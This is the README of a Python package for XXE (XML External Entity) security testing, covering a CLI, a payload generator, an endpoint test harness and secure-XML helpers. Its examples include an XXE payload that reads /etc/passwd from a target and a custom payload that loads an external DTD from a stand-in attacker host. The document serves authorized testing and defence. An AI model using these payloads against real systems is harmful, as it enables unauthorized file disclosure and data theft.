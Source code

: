 # XXE PyPI Package

[![PyPI version](https://badge.fury.io/py/xxe.svg)](https://badge.fury.io/py/xxe)
[![Python Versions](https://img.shields.io/pypi/pyversions/xxe.svg)](https://pypi.org/project/xxe/)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

A comprehensive Python package for XML External Entity (XXE) security testing and analysis. This package provides tools for security researchers and ethical hackers to identify and analyze XXE vulnerabilities in XML processing systems.

⚠️ **IMPORTANT: This tool is for educational and authorized security testing purposes only. Only use on systems you own or have explicit permission to test.**

## Features

- 🔍 Advanced XXE vulnerability detection
- 📊 Detailed security reports and analysis
- 🛠️ Customizable payload generation
- 🧪 Automated test harness
- 🔒 Secure XML processing utilities
- 📝 Comprehensive logging and reporting

## Installation

```bash
pip install xxe
```

## Quick Start

## Command Line Interface

The XXE package includes a command line interface (CLI) for easy integration into your workflow. After installing the package, you can use the `xxe-scan` command to perform scans directly from the terminal.

### Usage

```bash
xxe-scan --help
```

This will display the help message with all available options and usage instructions.

### Example

To scan an XML file for vulnerabilities:

```bash
xxe-scan analyze-file example.xml
```

To generate a custom payload:

```bash
xxe-scan generate-payload --file-path /etc/passwd
```

To test an endpoint with a payload:

```bash
xxe-scan test-endpoint --url http://example.com/xml-endpoint --payload '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>'
```

```python
from xxe import XXEAnalyzer, XXETestHarness, XXEPayloads

# Basic file analysis
analyzer = XXEAnalyzer()
report = analyzer.analyze_file("example.xml")
print(f"Found {report['summary']['total_vulnerabilities']} potential vulnerabilities")

# Generate test payload
payload = XXEPayloads.generate_custom_payload(file_path="/etc/passwd")

# Run security test
harness = XXETestHarness(target_url="http://example.com/xml-endpoint")
result = harness.test_endpoint(payload)
```

## Detailed Usage

### 1. XML File Analysis

```python
from xxe import XXEAnalyzer

# Create analyzer with verbose output
analyzer = XXEAnalyzer(verbose=True)

# Analyze XML file
report = analyzer.analyze_file("target.xml")

# Print detailed results
print(f"Scan completed at: {report['scan_time']}")
print("\nVulnerabilities Summary:")
print(f"High: {report['summary']['severity_counts']['HIGH']}")
print(f"Medium: {report['summary']['severity_counts']['MEDIUM']}")
print(f"Low: {report['summary']['severity_counts']['LOW']}")

# Print detailed findings
for vuln in report['vulnerabilities']:
    print(f"\nType: {vuln['type']}")
    print(f"Severity: {vuln['severity']}")
    print(f"Description: {vuln['description']}")
```

### 2. Payload Generation and Testing

```python
from xxe import XXEPayloads, XXETestHarness

# Get built-in payloads
payloads = XXEPayloads.get_basic_payloads()

# Generate custom payload
custom_payload = XXEPayloads.generate_custom_payload(
    url="http://attacker.com/evil.dtd"
)

# Create test harness
harness = XXETestHarness(target_url="http://target.com/xml")

# Run individual test
result = harness.test_endpoint(custom_payload)
print(f"Response Code: {result['status_code']}")
print(f"Response Time: {result['response_time']}s")

# Run full test suite
results = harness.run_test_suite()
```

### 3. Secure XML Processing

```python
from xxe import create_secure_xml, validate_xml_security

# Create secure XML
content = "<data>Example content</data>"
secure_xml = create_secure_xml(content)

# Validate XML security
is_safe, validation_report = validate_xml_security("input.xml")
if not is_safe:
    print("Security issues found!")
    print(validation_report)
```

## Security Features

The package includes various security features:

- DOCTYPE declaration detection
- Entity injection analysis
- External reference checking
- Comment analysis for sensitive data
- Encoding validation
- Comprehensive vulnerability reporting

## Best Practices

1. Always obtain proper authorization before testing
2. Document all testing activities
3. Follow responsible disclosure practices
4. Use secure configurations in production
5. Keep the package updated to the latest version

## Logging

The package uses Python's built-in logging module. To configure logging:

```python
import logging

logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)
```

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request. For major changes, please open an issue first to discuss what you would like to change.

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.


## Support

- Documentation: [https://xxe.readthedocs.io/](https://xxe.readthedocs.io/)
- Issue Tracker: [https://github.com/ishanoshada/xxe/issues](https://github.com/ishanoshada/xxe/issues)
- Security Issues: Please report security issues directly to security@yourdomain.com

## Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for obtaining appropriate permissions before testing any systems. The authors are not responsible for misuse or damages caused by this tool.

## Authors

- Your Name ([@ishanoshada](https://github.com/ishanoshada))

## Acknowledgments

- Security researchers and ethical hackers who contributed to XXE research
- The Python security community
- All contributors to this project
- 

**Repository Views** ![Views](https://profile-counter.glitch.me/xxe/count.svg)
